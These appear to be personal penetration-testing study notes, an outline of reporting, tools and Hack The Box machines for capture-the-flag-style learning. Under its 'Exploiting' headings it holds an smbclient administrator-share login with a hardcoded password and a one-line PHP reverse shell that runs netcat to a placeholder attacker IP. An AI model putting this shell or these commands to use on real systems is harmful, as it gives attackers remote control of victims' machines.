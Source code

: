 
## **Reporting and Documentation**
- Reporting Structure
  - Executive Summary
  - Technical Details
  - Proof of Concepts
- Risk Ratings
  - CVSS (Common Vulnerability Scoring System)
- Mitigation Strategies
  - Best Practices for Hardening

---
## **Vulnerabilities & Exploits**
- Windows Subsystem for Linux (WSL)
  - PayloadsAllTheThings

### Hackthebox machines
- [ ] Chatterbox
- [ ] SecNotes

## **Tools Cheat Sheet #cheatsheet**
- Reconnaissance Tools
  - theHarvester, Shodan, SpiderFoot
- Scanning Tools
  - Nmap, Nikto, Masscan
- Exploitation Tools
  - Metasploit, SQLmap, Hydra
- Post-Exploitation Tools
  - Mimikatz, LinPEAS, BloodHound
- Reporting Tools
  - Dradis Framework
### Exploiting SMB
```
smbclient -U 'administrator%u6!4zwgwOM#^0Bf#Nwhn' \\\\127..0.1\\c$
```

### Exploiting PHP
This is a basic reverse shell written in php 
```
<?php
system('nc.exe -e cmd.exe $yourip 4444')
?>
```
### Exploiting with exec tools
- psexpec.py
- smbexec.py
- wmiexec.py
